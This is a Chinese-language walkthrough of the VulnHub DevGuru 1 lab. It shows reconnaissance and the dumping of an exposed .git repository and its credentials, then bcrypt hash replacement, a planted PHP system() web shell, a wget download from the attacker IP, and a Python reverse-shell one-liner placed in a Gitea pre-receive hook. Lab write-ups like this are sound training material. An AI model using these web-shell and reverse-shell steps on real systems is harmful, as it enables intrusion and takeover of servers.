# DevGuru 1

> https://download.vulnhub.com/devguru/devguru.ova.7z

靶场IP：`192.168.32.224`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.224
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 01:23 EDT
Nmap scan report for 192.168.32.224
Host is up (0.00096s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8585/tcp open  unknown
```

访问80端口


爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.224/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 11 01:25:29 2022
URL_BASE: http://192.168.32.224/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.224/ ----
+ http://192.168.32.224/.git/HEAD (CODE:200|SIZE:23)                                                                                                                                                                                                                                                                        
+ http://192.168.32.224/.htaccess (CODE:200|SIZE:1678)                                                                                                                                                                                                                                                                      
+ http://192.168.32.224/0 (CODE:200|SIZE:12674)                                                                                                                                                                                                                                                                             
+ http://192.168.32.224/about (CODE:200|SIZE:18666)                                                                                                                                                                                                                                                                         
+ http://192.168.32.224/About (CODE:200|SIZE:18666)                                                                                                                                                                                                                                                                         
+ http://192.168.32.224/backend (CODE:302|SIZE:414)                                                                                                                                                                                                                                                                         
==> DIRECTORY: http://192.168.32.224/config/                                                                                                                                                                                                                                                                                
+ http://192.168.32.224/index.php (CODE:200|SIZE:12724)                                                                                                                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.224/modules/                                                                                                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.224/plugins/                                                                                                                                                                                                                                                                               
+ http://192.168.32.224/services (CODE:200|SIZE:10038)                                                                                                                                                                                                                                                                      
+ http://192.168.32.224/Services (CODE:200|SIZE:10038)                                                                                                                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.224/storage/                                                                                                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.224/themes/                                                                                                                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.224/vendor/                                                                                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.224/config/ ----
                                                                                                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.32.224/modules/ ----
==> DIRECTORY: http://192.168.32.224/modules/backend/                                                                                                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.224/modules/cms/                                                                                                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.224/modules/system/                                                                                                                                                                                                                                                                        
                                                                 
```

访问：`/.git/HEAD`



使用[git-dumper](https://github.com/arthaud/git-dumper)对整个git项目导出

```
┌──(root💀kali)-[/opt/git-dumper]
└─# python3 git_dumper.py  http://192.168.32.224 /tmp/sources
```


访问：`/adminer.php`，发现需要数据库连接信息



查看数据库连接文件

```
┌──(root💀kali)-[/tmp/sources]
└─# cat config/database.php


'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```

登录成功



在 `backend_users` 表中，我在这里看到了用户"`frank`"的记录，我找到了bcrypt 算法加密形式的密码，并且可以使用编辑选项卡修改该记录。



因此，我尝试使用 https://www.browserling.com/tools/bcrypt生成一个新密码 ：**hack123**

```
$2a$10$EZqGJ5vfe6K9vtzmn9xPCOER/W0JwLkLzzUFFfmvsM2CKFxr9P4tm
```

使用`frank/hack123`登录cms




我在 Google 上搜索并找到了一个通过执行 PHP 代码来利用 October CMS的[链接。](https://octobercms.com/forum/post/running-php-code-on-pages)所以我执行以下代码：

```
{{ this.page.getShell }}
```



在"`home.htm`"文件的代码选项卡中添加以下方法：

```php
function onStart() {
	$this->page['getShell'] = system($_GET['cmd']);
}
```



执行shell：`http://192.168.32.224/?cmd=ls -la`



下载反弹shell

```
192.168.32.224/?cmd=wget http://192.168.32.130/shell.php
```

我们得到了反向连接，让我们进一步列举。我们在 /var/backup 中找到了**app.ini.bak**文件



在这里，我们找到了 `gitea` DB 的另一个登录凭据。

```
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
```

因此我们以`gitea:UfFPTF8C8jjxVF2m`登录mysql



在用户内部的 gitea DB 中，该表包含 `user:frank` 并再次更改密码



现在让我们使用上面生成的用户 Frank 的密码哈希。因此，我为用户 frank 编辑了记录并更新了表格。



然后我导航到 gitea over 8585 并使用以下凭据登录



在这里，我们得到了仪表板并找到了 `frank/devguru-website` 的链接。



单击图像中突出显示的设置。



点击**Git Hooks > pre-receive > Hook Content**然后执行 python 反向 shell 和代码。

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```




但是您需要更新存储库以执行 python 代码，因此返回存储库并打开 `README.md`

现在通过在文件末尾添加一些空白行来编辑文件，并在单击提交更改后立即单击提交更改，它将更新存储库，您将通过 netcat 会话获得反向连接。


因此，我们得到了反向连接，我们找到了 `user.txt` 文件，这是我们的第一个标志。

